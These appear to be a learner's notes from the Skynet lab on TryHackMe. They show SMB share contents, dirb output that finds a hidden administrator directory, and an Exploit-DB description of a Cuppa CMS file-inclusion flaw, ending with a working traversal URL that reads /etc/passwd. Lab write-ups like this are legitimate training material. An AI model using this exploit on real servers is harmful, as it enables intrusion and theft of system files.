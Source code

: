   2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 05:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 05:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 05:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 05:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 05:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 05:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 05:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 05:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 05:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 05:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 05:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 05:01:29 2019

                9204224 blocks of size 1024. 5818552 blocks available
#I went into the notes directory -- having a look at the important.txt (using more command):
1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife

#going to the website there is a picture of miles dyson
#the way of downloading files from the sbshare is using 'get'

#next I did another dirb search for the directory, maybe theres another admin login page?
(kali㉿kali)-[~/THM/practice/skynet]
└─$ dirb http://10.10.76.236/45kra24zxs28v3yd                                                         130 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Tue Feb 15 14:24:19 2022
URL_BASE: http://10.10.76.236/45kra24zxs28v3yd/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.76.236/45kra24zxs28v3yd/ ----
==> DIRECTORY: http://10.10.76.236/45kra24zxs28v3yd/administrator/
#and there it is

#the point now is to comduct a RFI ecploit (remote file inclusion) so I looked up how to do this + with cuppa CMS

#exploitdb shows a way of accessing it by using URL 'poisoning':
An attacker might include local or remote PHP files or read non-PHP files with this vulnerability. User tainted data is used when creating the file name that will be included into the current file. PHP code in this file will be evaluated, non-PHP code will be embedded to the output. This vulnerability can lead to full server compromise.

http://target/cuppa/alerts/alertConfigField.php?urlConfig=[FI]

#this iis the exploit:
http://target/cuppa/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
